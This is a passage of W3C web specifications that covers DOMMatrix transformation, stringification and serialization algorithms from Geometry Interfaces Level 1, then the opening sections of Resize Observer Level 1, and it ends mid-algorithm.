  3. Return *result*.

  The current matrix is not modified.

****`rotate(rotX, rotY, rotZ)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `rotateSelf()` transformation on *result* with the arguments *rotX*, *rotY*, *rotZ*.
  3. Return *result*.

  The current matrix is not modified.

****`rotateFromVector(x, y)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `rotateFromVectorSelf()` transformation on *result* with the arguments *x*, *y*.
  3. Return *result*.

  The current matrix is not modified.

****`rotateAxisAngle(x, y, z, angle)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `rotateAxisAngleSelf()` transformation on *result* with the arguments *x*, *y*, *z*, *angle*.
  3. Return *result*.

  The current matrix is not modified.

****`skewX(sx)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `skewXSelf()` transformation on *result* with the argument *sx*.
  3. Return *result*.

  The current matrix is not modified.

****`skewY(sy)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `skewYSelf()` transformation on *result* with the argument *sy*.
  3. Return *result*.

  The current matrix is not modified.

****`multiply(other)`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `multiplySelf()` transformation on *result* with the argument *other*.
  3. Return *result*.

  The current matrix is not modified.

****`flipX()`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Post-multiply *result* with `new DOMMatrix([-1, 0, 0, 1, 0, 0])`.
  3. Return *result*.

  The current matrix is not modified.

****`flipY()`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Post-multiply *result* with `new DOMMatrix([1, 0, 0, -1, 0, 0])`.
  3. Return *result*.

  The current matrix is not modified.

****`inverse()`****

: 1. Let *result* be the resulting matrix initialized to the values of the current matrix.
  2. Perform a `invertSelf()` transformation on *result*.
  3. Return *result*.

  The current matrix is not modified.

The following methods do not modify the current matrix.

****`transformPoint(point)`****

: Let *pointObject* be the result of invoking create a `DOMPoint` from the dictionary *point*. Return the result of invoking transform a point with a matrix, given *pointObject* and the current matrix. The passed argument does not get modified.

****`toFloat32Array()`****

: Returns the serialized 16 elements `m11` to `m44` of the current matrix in column-major order as `Float32Array`.

****`toFloat64Array()`****

: Returns the serialized 16 elements `m11` to `m44` of the current matrix in column-major order as `Float64Array`.

****stringification behavior****

: 1. If one or more of m11 element through m44 element are a non-finite value, then throw an "`InvalidStateError`" `DOMException`.

     > **Note:** The CSS syntax cannot represent `NaN` or `Infinity` values.
  2. Let *string* be the empty string.
  3. If is 2D is `true`, then:

    1. Append "`matrix(`" to *string*.
    2. Append ! ToString(m11 element) to *string*.
    3. Append "`,`" to *string*.
    4. Append ! ToString(m12 element) to *string*.
    5. Append "`,`" to *string*.
    6. Append ! ToString(m21 element) to *string*.
    7. Append "`,`" to *string*.
    8. Append ! ToString(m22 element) to *string*.
    9. Append "`,`" to *string*.
    10. Append ! ToString(m41 element) to *string*.
    11. Append "`,`" to *string*.
    12. Append ! ToString(m42 element) to *string*.
    13. Append "`)`" to *string*.

     > **Note:** The string will be in the form of a a CSS Transforms `<matrix()>` function. [CSS3-TRANSFORMS]
  4. Otherwise:

    1. Append "`matrix3d(`" to *string*.
    2. Append ! ToString(m11 element) to *string*.
    3. Append "`,`" to *string*.
    4. Append ! ToString(m12 element) to *string*.
    5. Append "`,`" to *string*.
    6. Append ! ToString(m13 element) to *string*.
    7. Append "`,`" to *string*.
    8. Append ! ToString(m14 element) to *string*.
    9. Append "`,`" to *string*.
    10. Append ! ToString(m21 element) to *string*.
    11. Append "`,`" to *string*.
    12. Append ! ToString(m22 element) to *string*.
    13. Append "`,`" to *string*.
    14. Append ! ToString(m23 element) to *string*.
    15. Append "`,`" to *string*.
    16. Append ! ToString(m24 element) to *string*.
    17. Append "`,`" to *string*.
    18. Append ! ToString(m41 element) to *string*.
    19. Append "`,`" to *string*.
    20. Append ! ToString(m42 element) to *string*.
    21. Append "`,`" to *string*.
    22. Append ! ToString(m43 element) to *string*.
    23. Append "`,`" to *string*.
    24. Append ! ToString(m44 element) to *string*.
    25. Append "`)`" to *string*.

     > **Note:** The string will be in the form of a a CSS Transforms `<matrix3d()>` function. [CSS3-TRANSFORMS]
  5. Return *string*.

> **Example:** In this example, a matrix is created and several 2D transformation methods are called:
>
> ```
> var matrix = new DOMMatrix();
> matrix.scaleSelf(2);
> matrix.translateSelf(20,20);
> console.assert(matrix.toString() ===
>                 "matrix(2, 0, 0, 2, 40, 40)");
> ```

> **Example:** In the following example, a matrix is created and several 3D transformation methods are called:
>
> ```
> var matrix = new DOMMatrix();
> matrix.scale3dSelf(2);
> console.assert(matrix.toString() ===
>                 "matrix3d(2, 0, 0, 0, 0, 2, 0, 0, 0, 0, 2, 0, 0, 0, 0, 1)");
> ```
>
> For 3D operations, the stringifier returns a string representing a 3D matrix.

> **Example:** This example will throw an exception because there are non-finite values in the matrix.
>
> ```
> var matrix = new DOMMatrix([NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN, NaN]);
> var string = matrix + " Batman!";
> ```

#### 6.6. Mutable transformation methods {#geometry-1:mutable-transformation-methods}

The following methods modify the current matrix, so that each method returns the matrix where it was invoked on. The primary benefit of this is allowing content creators to chain method calls.

> **Example:** The following code example:
>
> ```
> var matrix = new DOMMatrix();
> matrix.translateSelf(20, 20);
> matrix.scaleSelf(2);
> matrix.translateSelf(-20, -20);
> ```
>
> is equivalent to:
>
> ```
> var matrix = new DOMMatrix();
> matrix.translateSelf(20, 20).scaleSelf(2).translateSelf(-20, -20);
> ```

> **Note:** Authors who use chained method calls are advised to use mutable transformation methods to avoid unnecessary memory allocations due to creation of intermediate `DOMMatrix` objects in user agents.

****`multiplySelf(other)`****

: 1. Let *otherObject* be the result of invoking create a `DOMMatrix` from the dictionary *other*.
  2. The *otherObject* matrix gets post-multiplied to the current matrix.
  3. If is 2D of *otherObject* is `false`, set is 2D of the current matrix to `false`.
  4. Return the current matrix.

****`preMultiplySelf(other)`****

: 1. Let *otherObject* be the result of invoking create a `DOMMatrix` from the dictionary *other*.
  2. The *otherObject* matrix gets pre-multiplied to the current matrix.
  3. If is 2D of *otherObject* is `false`, set is 2D of the current matrix to `false`.
  4. Return the current matrix.

****`translateSelf(tx, ty, tz)`****

: 1. Post-multiply a translation transformation on the current matrix. The 3D translation matrix is [described](#css-transforms-1:TranslateDefined) in CSS Transforms. [CSS3-TRANSFORMS]
  2. If *tz* is specified and not `0` or `-0`, set is 2D of the current matrix to `false`.
  3. Return the current matrix.

****`scaleSelf(scaleX, scaleY, scaleZ, originX, originY, originZ)`****

: 1. Perform a `translateSelf()` transformation on the current matrix with the arguments *originX*, *originY*, *originZ*.
  2. If *scaleY* is missing, set *scaleY* to the value of *scaleX*.
  3. Post-multiply a non-uniform scale transformation on the current matrix. The 3D scale matrix is [described](#css-transforms-1:ScaleDefined) in CSS Transforms with *sx* = *scaleX*, *sy* = *scaleY* and *sz* = *scaleZ*. [CSS3-TRANSFORMS]
  4. Negate *originX*, *originY* and *originZ*.
  5. Perform a `translateSelf()` transformation on the current matrix with the arguments *originX*, *originY*, *originZ*.
  6. If *scaleZ* is not `1`, set is 2D of the current matrix to `false`.
  7. Return the current matrix.

****`scale3dSelf(scale, originX, originY, originZ)`****

: 1. Apply a `translateSelf()` transformation to the current matrix with the arguments *originX*, *originY*, *originZ*.
  2. Post-multiply a uniform 3D scale transformation (`m11` = `m22` = `m33` = *scale*) on the current matrix. The 3D scale matrix is [described](#css-transforms-1:ScaleDefined) in CSS Transforms with *sx* = *sy* = *sz* = *scale*. [CSS3-TRANSFORMS]
  3. Apply a `translateSelf()` transformation to the current matrix with the arguments -*originX*, -*originY*, -*originZ*.
  4. If *scale* is not `1`, set is 2D of the current matrix to `false`.
  5. Return the current matrix.

****`rotateSelf(rotX, rotY, rotZ)`****

: 1. If *rotY* and *rotZ* are both missing, set *rotZ* to the value of *rotX* and set *rotX* and *rotY* to `0`.
  2. If *rotY* is still missing, set *rotY* to `0`.
  3. If *rotZ* is still missing, set *rotZ* to `0`.
  4. If *rotX* or *rotY* are not `0` or `-0`, set is 2D of the current matrix to `false`.
  5. Post-multiply a rotation transformation on the current matrix around the vector 0, 0, 1 by the specified rotation *rotZ* in degrees. The 3D rotation matrix is [described](#css-transforms-1:RotateDefined) in CSS Transforms with *alpha* = *rotZ* in degrees. [CSS3-TRANSFORMS]
  6. Post-multiply a rotation transformation on the current matrix around the vector 0, 1, 0 by the specified rotation *rotY* in degrees. The 3D rotation matrix is [described](#css-transforms-1:RotateDefined) in CSS Transforms with *alpha* = *rotY* in degrees. [CSS3-TRANSFORMS]
  7. Post-multiply a rotation transformation on the current matrix around the vector 1, 0, 0 by the specified rotation *rotX* in degrees. The 3D rotation matrix is [described](#css-transforms-1:RotateDefined) in CSS Transforms with *alpha* = *rotX* in degrees. [CSS3-TRANSFORMS]
  8. Return the current matrix.

****`rotateFromVectorSelf(x, y)`****

: 1. Post-multiply a rotation transformation on the current matrix. The rotation angle is determined by the angle between the vector (1,0)T and (*x*,*y*)T in the clockwise direction. If *x* and *y* should both be `0` or `-0`, the angle is specified as `0`. The 2D rotation matrix is [described](#css-transforms-1:RotateDefined) in CSS Transforms where `alpha` is the angle between the vector (1,0)T and (*x*,*y*)T in degrees. [CSS3-TRANSFORMS]
  2. Return the current matrix.

****`rotateAxisAngleSelf(x, y, z, angle)`****

: 1. Post-multiply a rotation transformation on the current matrix around the specified vector *x*, *y*, *z* by the specified rotation *angle* in degrees. The 3D rotation matrix is [described](#css-transforms-1:RotateDefined) in CSS Transforms with *alpha* = *angle* in degrees. [CSS3-TRANSFORMS]
  2. If *x* or *y* are not `0` or `-0`, set is 2D of the current matrix to `false`.
  3. Return the current matrix.

****`skewXSelf(sx)`****

: 1. Post-multiply a skewX transformation on the current matrix by the specified angle *sx* in degrees. The 2D skewX matrix is [described](#css-transforms-1:SkewXDefined) in CSS Transforms with *alpha* = *sx* in degrees. [CSS3-TRANSFORMS]
  2. Return the current matrix.

****`skewYSelf(sy)`****

: 1. Post-multiply a skewX transformation on the current matrix by the specified angle *sy* in degrees. The 2D skewY matrix is [described](#css-transforms-1:SkewYDefined) in CSS Transforms with *beta* = *sy* in degrees. [CSS3-TRANSFORMS]
  2. Return the current matrix.

****`invertSelf()`****

: 1. Invert the current matrix.
  2. If the current matrix is not invertible set all attributes to `NaN` and set is 2D to `false`.
  3. Return the current matrix.

****`setMatrixValue(transformList)`****

: 1. Parse *transformList* into an abstract matrix, and let *matrix* and *2dTransform* be the result. If the result is failure, then throw a "`SyntaxError`" `DOMException`.
  2. Set is 2D to the value of *2dTransform*.
  3. Set m11 element through m44 element to the element values of *matrix* in column-major order.
  4. Return the current matrix.

### 7. Structured serialization {#geometry-1:structured-serialization}

`DOMPointReadOnly`, `DOMPoint`, `DOMRectReadOnly`, `DOMRect`, `DOMQuad`, `DOMMatrixReadOnly`, and `DOMMatrix` objects are serializable objects. [HTML]

The serialization steps for `DOMPointReadOnly` and `DOMPoint`, given *value* and *serialized*, are:

1. Set *serialized*.[[X]] to *value*’s x coordinate.
2. Set *serialized*.[[Y]] to *value*’s y coordinate.
3. Set *serialized*.[[Z]] to *value*’s z coordinate.
4. Set *serialized*.[[W]] to *value*’s w perspective.

Their deserialization steps, given *serialized* and *value*, are:

1. Set *value*’s x coordinate to *serialized*.[[X]].
2. Set *value*’s y coordinate to *serialized*.[[Y]].
3. Set *value*’s z coordinate to *serialized*.[[Z]].
4. Set *value*’s w perspective to *serialized*.[[W]].

The serialization steps for `DOMRectReadOnly` and `DOMRect`, given *value* and *serialized*, are:

1. Set *serialized*.[[X]] to *value*’s x coordinate.
2. Set *serialized*.[[Y]] to *value*’s y coordinate.
3. Set *serialized*.[[Width]] to *value*’s width dimension.
4. Set *serialized*.[[Height]] to *value*’s height dimension.

Their deserialization steps, given *serialized* and *value*, are:

1. Set *value*’s x coordinate to *serialized*.[[X]].
2. Set *value*’s y coordinate to *serialized*.[[Y]].
3. Set *value*’s width dimension to *serialized*.[[Width]].
4. Set *value*’s height dimension to *serialized*.[[Height]].

The serialization steps for `DOMQuad`, given *value* and *serialized*, are:

1. Set *serialized*.[[P1]] to the sub-serialization of *value*’s point 1.
2. Set *serialized*.[[P2]] to the sub-serialization of *value*’s point 2.
3. Set *serialized*.[[P3]] to the sub-serialization of *value*’s point 3.
4. Set *serialized*.[[P4]] to the sub-serialization of *value*’s point 4.

Their deserialization steps, given *serialized* and *value*, are:

1. Set *value*’s point 1 to the sub-deserialization of *serialized*.[[P1]].
2. Set *value*’s point 2 to the sub-deserialization of *serialized*.[[P2]].
3. Set *value*’s point 3 to the sub-deserialization of *serialized*.[[P3]].
4. Set *value*’s point 4 to the sub-deserialization of *serialized*.[[P4]].

The serialization steps for `DOMMatrixReadOnly` and `DOMMatrix`, given *value* and *serialized*, are:

1. If *value*’s is 2D is `true`:

  1. Set *serialized*.[[M11]] to *value*’s m11 element.
  2. Set *serialized*.[[M12]] to *value*’s m12 element.
  3. Set *serialized*.[[M21]] to *value*’s m21 element.
  4. Set *serialized*.[[M22]] to *value*’s m22 element.
  5. Set *serialized*.[[M41]] to *value*’s m41 element.
  6. Set *serialized*.[[M42]] to *value*’s m42 element.
  7. Set *serialized*.[[Is2D]] to `true`.

   > **Note:** It is possible for a 2D `DOMMatrix` or `DOMMatrixReadOnly` to have `-0` for some of the other elements, e.g., the m13 element, which will not be roundtripped by this algorithm.
2. Otherwise:

  1. Set *serialized*.[[M11]] to *value*’s m11 element.
  2. Set *serialized*.[[M12]] to *value*’s m12 element.
  3. Set *serialized*.[[M13]] to *value*’s m13 element.
  4. Set *serialized*.[[M14]] to *value*’s m14 element.
  5. Set *serialized*.[[M21]] to *value*’s m21 element.
  6. Set *serialized*.[[M22]] to *value*’s m22 element.
  7. Set *serialized*.[[M23]] to *value*’s m23 element.
  8. Set *serialized*.[[M24]] to *value*’s m24 element.
  9. Set *serialized*.[[M31]] to *value*’s m31 element.
  10. Set *serialized*.[[M32]] to *value*’s m32 element.
  11. Set *serialized*.[[M33]] to *value*’s m33 element.
  12. Set *serialized*.[[M34]] to *value*’s m34 element.
  13. Set *serialized*.[[M41]] to *value*’s m41 element.
  14. Set *serialized*.[[M42]] to *value*’s m42 element.
  15. Set *serialized*.[[M43]] to *value*’s m43 element.
  16. Set *serialized*.[[M44]] to *value*’s m44 element.
  17. Set *serialized*.[[Is2D]] to `false`.

   Their deserialization steps, given *serialized* and *value*, are:

  1. If *serialized*.[[Is2D]] is `true`:

    1. Set *value*’s m11 element to *serialized*.[[M11]].
    2. Set *value*’s m12 element to *serialized*.[[M12]].
    3. Set *value*’s m13 element to `0`.
    4. Set *value*’s m14 element to `0`.
    5. Set *value*’s m21 element to *serialized*.[[M21]].
    6. Set *value*’s m22 element to *serialized*.[[M22]].
    7. Set *value*’s m23 element to `0`.
    8. Set *value*’s m24 element to `0`.
    9. Set *value*’s m31 element to `0`.
    10. Set *value*’s m32 element to `0`.
    11. Set *value*’s m33 element to `1`.
    12. Set *value*’s m34 element to `0`.
    13. Set *value*’s m41 element to *serialized*.[[M41]].
    14. Set *value*’s m42 element to *serialized*.[[M42]].
    15. Set *value*’s m43 element to `0`.
    16. Set *value*’s m44 element to `1`.
    17. Set *value*’s is 2D to `true`.
  2. Otherwise:

    1. Set *value*’s m11 element to *serialized*.[[M11]].
    2. Set *value*’s m12 element to *serialized*.[[M12]].
    3. Set *value*’s m13 element to *serialized*.[[M13]].
    4. Set *value*’s m14 element to *serialized*.[[M14]].
    5. Set *value*’s m21 element to *serialized*.[[M21]].
    6. Set *value*’s m22 element to *serialized*.[[M22]].
    7. Set *value*’s m23 element to *serialized*.[[M23]].
    8. Set *value*’s m24 element to *serialized*.[[M24]].
    9. Set *value*’s m31 element to *serialized*.[[M31]].
    10. Set *value*’s m32 element to *serialized*.[[M32]].
    11. Set *value*’s m33 element to *serialized*.[[M33]].
    12. Set *value*’s m34 element to *serialized*.[[M34]].
    13. Set *value*’s m41 element to *serialized*.[[M41]].
    14. Set *value*’s m42 element to *serialized*.[[M42]].
    15. Set *value*’s m43 element to *serialized*.[[M43]].
    16. Set *value*’s m44 element to *serialized*.[[M44]].
    17. Set *value*’s is 2D to `false`.

### 10. Historical {#geometry-1:historical}

*This section is non-normative.*

The interfaces in this specification are intended to replace earlier similar interfaces found in various specifications as well as proprietary interfaces found in some user agents. This section attempts to enumerate these interfaces.

#### 10.1. CSSOM View {#geometry-1:historical-cssom-view}

Earlier revisions of CSSOM View defined a `ClientRect` interface, which is replaced by `DOMRect`. Implementations conforming to this specification will not support `ClientRect`. [CSSOM-VIEW]

#### 10.2. SVG {#geometry-1:historical-svg}

Earlier revisions of SVG defined `SVGPoint`, `SVGRect`, `SVGMatrix`, which are defined in this specifications as aliases to `DOMPoint`, `DOMRect`, `DOMMatrix`, respectively. [SVG11]

#### 10.3. Non-standard {#geometry-1:historical-non-standard}

Some user agents supported a `WebKitPoint` interface. Implementations conforming to this specification will not support `WebKitPoint`.

Several user agents supported a `WebKitCSSMatrix` interface, which is also widely used on the Web. It is defined in this specification as an alias to `DOMMatrix`.

Some user agents supported a `MSCSSMatrix` interface. Implementations conforming to this specification will not support `MSCSSMatrix`.

### Document conventions {#geometry-1:conventions}

The **NaN-safe minimum** of a non-empty list of `unrestricted double` values is NaN if any member of the list is NaN, or the minimum of the list otherwise.

Analogously, the **NaN-safe maximum** of a non-empty list of `unrestricted double` values is NaN if any member of the list is NaN, or the maximum of the list otherwise.

---

## Resize Observer Module Level 1 {#resize-observer-1}

- **Shortname:** `resize-observer-1`
- **Editor's Draft:** [https://drafts.csswg.org/resize-observer/](https://drafts.csswg.org/resize-observer/)
- **Published TR:** [https://www.w3.org/TR/resize-observer/](https://www.w3.org/TR/resize-observer/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2022-11-22

### 1. Introduction {#resize-observer-1:intro}

*This section is non-normative.*

Responsive Web Components need to respond to `Element`’s size changes. An example is an `Element` that displays a map:

- it displays a map by tiling its content box with `Element` tiles.
- when resized, it must redo the tiling.

Responsive Web Applications can already respond to viewport size changes. This is done with CSS media queries, or `Window`’s `resize` event.

The ResizeObserver API is an interface for observing changes to Element’s size. It is an `Element`’s counterpart to `Window`’s `resize` event.

ResizeObserver’s notifications can be used to respond to changes in `Element`’s size. Some interesting facts about these observations:

- Observation will fire when observation starts.
- Observation will fire when watched Element is inserted/removed from DOM.
- Observation will fire when watched Element display gets set to none.
- Observations do not fire for non-replaced inline Elements.
- Observations will not be triggered by CSS transforms.

> **Example:** ```
> <canvas id="ellipse" style="display:block"></canvas>
> <div id="menu" style="display:block;width:100px">
>     
>     <p class="title">menu title</p>
> </div>
> ```
>
> ```
> // In response to resize, paint an ellipse inside a canvas
> document.querySelector('#ellipse').handleResize = entry => {
>     entry.target.width = entry.borderBoxSize[0].inlineSize;
>     entry.target.height = entry.borderBoxSize[0].blockSize;
>     let rx = Math.floor(entry.target.width / 2);
>     let ry = Math.floor(entry.target.height / 2);
>     let ctx = entry.target.getContext('2d');
>     ctx.beginPath();
>     ctx.ellipse(rx, ry, rx, ry, 0, 0, 2 * Math.PI);
>     ctx.stroke();
> }
>
> // In response to resize, change title visibility depending on width
> document.querySelector('#menu').handleResize = entry => {
>     let title = entry.target.querySelector('.title');
>     if (entry.borderBoxSize[0].inlineSize < 40)
>         title.style.display = 'none';
>     else
>         title.style.display = 'inline-block';
> }
>
> let ro = new ResizeObserver(entries => {
>   for (let entry of entries) {
>     let cs = window.getComputedStyle(entry.target);
>     console.log('watching element:', entry.target);
>     console.log(entry.contentRect.top, ' is ', cs.paddingTop);
>     console.log(entry.contentRect.left, ' is ', cs.paddingLeft);
>     console.log(entry.borderBoxSize[0].inlineSize, ' is ', cs.width);
>     console.log(entry.borderBoxSize[0].blockSize, ' is ', cs.height);
>     if (entry.target.handleResize)
>         entry.target.handleResize(entry);
>   }
> });
>
> ro.observe(document.querySelector('#ellipse'));
> ro.observe(document.querySelector('#menu'));
> ```

### 2. Resize Observer API {#resize-observer-1:api}

#### 2.1. ResizeObserver interface {#resize-observer-1:resize-observer-interface}

The ResizeObserver interface is used to observe changes to `Element`’s size.

It is modeled after `MutationObserver` and `IntersectionObserver`.

```webidl
enum ResizeObserverBoxOptions {
    "border-box", "content-box", "device-pixel-content-box"
};
```

ResizeObserver can observe different kinds of CSS sizes:

- `border-box` : size of box border area as defined in CSS2.
- `content-box` : size of content area as defined in CSS2.
- `device-pixel-content-box` : size of content area as defined in CSS2, in device pixels, before applying any CSS transforms on the element or its ancestors. This size must contain integer values.

> **Note:** The `device-pixel-content-box` can be approximated by multiplying devicePixelRatio by the `content-box` size. However, due to browser-specific subpixel snapping behavior, authors cannot determine the correct way to round this scaled `content-box` size. How a UA computes the device pixel box for an element is implementation-dependent. One possible implementation could be to multiply the box size and position by the device pixel ratio, then round both the resulting floating-point size and position of the box to integer values, in a way that maximizes the quality of the rendered output.

Note that this size can be affected by position changes to the target, and thus is typically more expensive to observe than the other sizes.

```webidl
dictionary ResizeObserverOptions {
    ResizeObserverBoxOptions box = "content-box";
};
```

This section is non-normative. An author may desire to observe more than one CSS box. In this case, author will need to use multiple ResizeObservers.

```
// Observe the content-box
ro.observe(document.querySelector('#menu'), { box: 'content-box' });

// Observe just the border box. Replaces previous observation.
ro1.observe(document.querySelector('#menu'), { box: 'border-box' });
```

> **Note:** This does not have any impact on which box dimensions are returned to the defined callback when the event is fired, it solely defines which box the author wishes to observe layout changes on.

```webidl
[Exposed=(Window)]
interface ResizeObserver {
    constructor(ResizeObserverCallback callback);
    undefined observe(Element target, optional ResizeObserverOptions options = {});
    undefined unobserve(Element target);
    undefined disconnect();
};
```

****`new ResizeObserver(callback)`****

: 1. Let *this* be a new `ResizeObserver` object.
  2. Set *this*.`[[callback]]` internal slot to *callback*.
  3. Set *this*.`[[observationTargets]]` internal slot to an empty list.
  4. Add *this* to `Document`.`[[resizeObservers]]` slot.

****`observe(target, options)`****

: Adds target to the list of observed elements.

  1. If *target* is in `[[observationTargets]]` slot, call `unobserve()` with argument *target*.
  2. Let *observedBox* be the value of the `box` dictionary member of *options*.
  3. Let *resizeObservation* be new `ResizeObservation`(*target*, *observedBox*).
  4. Add the *resizeObservation* to the `[[observationTargets]]` slot.

****`unobserve(target)`****

: Removes *target* from the list of observed elements.

  1. Let *observation* be `ResizeObservation` in `[[observationTargets]]` whose target slot is *target*.
  2. If *observation* is not found, return.
  3. Remove *observation* from `[[observationTargets]]`.

****`disconnect()`****

: 1. Clear the `[[observationTargets]]` list.
  2. Clear the `[[activeTargets]]` list.

#### 2.2. ResizeObserverCallback {#resize-observer-1:resize-observer-callback}

```webidl
callback ResizeObserverCallback = undefined (sequence<ResizeObserverEntry> entries, ResizeObserver observer);
```

This callback delivers `ResizeObserver`’s notifications. It is invoked by a broadcast active resize observations algorithm.

#### 2.3. ResizeObserverEntry {#resize-observer-1:resize-observer-entry-interface}

```webidl
[Exposed=Window]
interface ResizeObserverEntry {
    readonly attribute Element target;
    readonly attribute DOMRectReadOnly contentRect;
    readonly attribute FrozenArray<ResizeObserverSize> borderBoxSize;
    readonly attribute FrozenArray<ResizeObserverSize> contentBoxSize;
    readonly attribute FrozenArray<ResizeObserverSize> devicePixelContentBoxSize;
};
```

> **Note:** contentRect is from the incubation phase of ResizeObserver and is only included for current web compat reasons. It may be deprecated in future levels.

****`target`**,  of type Element, readonly**

: The `Element` whose size has changed.

****`contentRect`**,  of type DOMRectReadOnly, readonly**

: `Element`’s content rect when `ResizeObserverCallback` is invoked.

****`borderBoxSize`**,  of type FrozenArray<ResizeObserverSize>, readonly**

: A `FrozenArray` containing the `Element`’s border box size when `ResizeObserverCallback` is invoked.

****`contentBoxSize`**,  of type FrozenArray<ResizeObserverSize>, readonly**

: A `FrozenArray` containing the `Element`’s content rect size when `ResizeObserverCallback` is invoked.

****`devicePixelContentBoxSize`**,  of type FrozenArray<ResizeObserverSize>, readonly**

: A `FrozenArray` containing the `Element`’s content rect size in integral device pixels when `ResizeObserverCallback` is invoked.

> **Note:** The box size properties are exposed as `FrozenArray` in order to support elements that have multiple fragments, which occur in multi-column scenarios. However the current definitions of content rect and border box do not mention how those boxes are affected by multi-column layout. In this spec, there will only be a single ResizeObserverSize returned in the `FrozenArray`, which will correspond to the dimensions of the first column. A future version of this spec will extend the returned `FrozenArray` to contain the per-fragment size information.

```webidl
[Exposed=Window]
interface ResizeObserverSize {
    readonly attribute unrestricted double inlineSize;
    readonly attribute unrestricted double blockSize;
};
```

### 3. Processing Model {#resize-observer-1:processing-model}

#### 3.1. ResizeObservation example struct {#resize-observer-1:resize-observation-interface}

> **Note:** This section is non-normative. ResizeObservation is an example struct that can be used in implementation of Resize Observer. It is being included here in order to help provide clarity during the processing model. It effectively holds observation information for a single `Element`. This interface is not visible to Javascript.

```webidl
interface ResizeObservation {
    constructor(Element target, ResizeObserverBoxOptions observedBox);
    readonly attribute Element target;
    readonly attribute ResizeObserverBoxOptions observedBox;
    readonly attribute FrozenArray<ResizeObserverSize> lastReportedSizes;
};
```

****`target`**,  of type Element, readonly**

: The observed `Element`.

****`observedBox`**,  of type ResizeObserverBoxOptions, readonly**

: Which box is being observed.

****`lastReportedSizes`**,  of type FrozenArray<ResizeObserverSize>, readonly**

: Ordered array of last reported sizes.

****`new ResizeObservation(target, observedBox)`****

: 1. Let *this* be a new `ResizeObservation` object.
  2. Set *this* internal `target` slot to *target*.
  3. Set *this* internal `observedBox` slot to *observedBox*.
  4. Set *this* internal `lastReportedSizes` slot to [(-1,-1)].

****`isActive()`****

: 1. Set *currentSize* by calculate box size given *target* and *observedBox*.
  2. Return true if *currentSize* is not equal to the first entry in this.`lastReportedSizes`.
  3. Return false.

#### 3.2. Internal Slot Definitions {#resize-observer-1:internal-slot-definitions}

##### 3.2.1. Document {#resize-observer-1:document-slots}

Document has a **`[[resizeObservers]]`** slot that is a list of `ResizeObserver`s in this document. It is initialized to empty.

##### 3.2.2. ResizeObserver {#resize-observer-1:resize-observer-slots}

`ResizeObserver` has a **`[[callback]]`** slot, initialized by constructor.

`ResizeObserver` has an **`[[observationTargets]]`** slot, which is a list of `ResizeObservation`s. It represents all Elements being observed.

`ResizeObserver` has a **`[[activeTargets]]`** slot, which is a list of `ResizeObservation`s. It represents all Elements whose size has changed since last observation broadcast that are eligible for broadcast.

`ResizeObserver` has a **`[[skippedTargets]]`** slot, which is a list of `ResizeObservation`s. It represents all Elements whose size has changed since last observation broadcast that are **not** eligible for broadcast

#### 3.3. CSS Definitions {#resize-observer-1:css-definitions}

##### 3.3.1. content rect {#resize-observer-1:content-rect-h}

DOM **content rect** is a rect whose:

- width is content width
- height is content height
- top is padding top
- left is padding left

content width spec does not mention how multi-column layout affects content box. In this spec, content width of an `Element` inside multi-column is the result of `getComputedStyle(element).width`. This currently evaluates to width of the first column.

Having content rect position be padding-top/left is useful for absolute positioning of target’s children. Absolute position coordinate space origin is topLeft of the padding rect.

Watching content rect means that:

- observation will fire when watched Element is inserted/removed from DOM.
- observation will fire when watched Element display gets set to none.
- non-replaced inline Elements will always have an empty content rect.
- observations will not be triggered by CSS transforms.

Web content can also contain SVG elements. SVG elements that do not have associated CSS layout boxes define bounding box instead of a content box. Content rect for the SVGGraphicsElements without CSS layout boxes is a rect whose:

- width is bounding box width
- height is bounding box height
- top and left are 0

#### 3.4. Algorithms {#resize-observer-1:algorithms}

> **Note:** The following algorithms are invoked as a part of update the rendering in the html spec: gather active resize observations at depth, has active resize observations, has skipped resize observations, broadcast active resize observations and deliver resize loop error notification.

##### 3.4.1. Gather active resize observations at depth {#resize-observer-1:gather-active-observations-h}

It computes all active resize observations for a *document*. To **gather active resize observations at depth**, run these steps:

1. Let *depth* be the depth passed in.
2. For each *observer* in `[[resizeObservers]]` run these steps:

  1. Clear *observer*’s `[[activeTargets]]`, and `[[skippedTargets]]`.
  2. For each *observation* in *observer*.`[[observationTargets]]` run this step:

    1. If *observation*.`isActive()` is true

      1. Let *targetDepth* be result of calculate depth for node for *observation*.`target`.
      2. If *targetDepth* is greater than *depth* then add *observation* to `[[activeTargets]]`.
      3. Else add *observation* to `[[skippedTargets]]`.

##### 3.4.2. Has active resize observations {#resize-observer-1:has-active-observations-h}

To determine if `Document` **has active resize observations** run these steps:

1. For each *observer* in `[[resizeObservers]]` run this step:

  1. If *observer*.`[[activeTargets]]` is not empty, return true.
2. return false.

##### 3.4.3. Has skipped resize observations {#resize-observer-1:has-skipped-observations-h}

To determine if `Document` **has skipped resize observations** run these steps:

1. For each *observer* in `[[resizeObservers]]` run this step:

  1. If *observer*.`[[skippedTargets]]` is not empty, return true.
2. return false.

##### 3.4.4.  Create and populate a ResizeObserverEntry {#resize-observer-1:create-and-populate-resizeobserverentry-h}

To **create and populate a ResizeObserverEntry** for a given *target*, run these steps:

1. Let *this* be a new `ResizeObserverEntry`.
2. Set *this*.`target` slot to *target*.
3. Set *this*.`borderBoxSize` slot to result of calculating box size given *target* and observedBox of `"border-box"`.
4. Set *this*.`contentBoxSize` slot to result of calculating box size given *target* and observedBox of `"content-box"`.
5. Set *this*.`devicePixelContentBoxSize` slot to result of calculating box size given *target* and observedBox of `"device-pixel-content-box"`.
6. Set *this*.`contentRect` to logical *this*.`contentBoxSize` given *target* and observedBox of "content-box".
7. If *target* is not an SVG element or *target* is an SVG element with an associated CSS layout box do these steps:

  1. Set *this*.*contentRect*.top to *target*.padding top.
  2. Set *this*.*contentRect*.left to *target*.padding left.
8. If *target* is an SVG element without an associated CSS layout box do these steps:

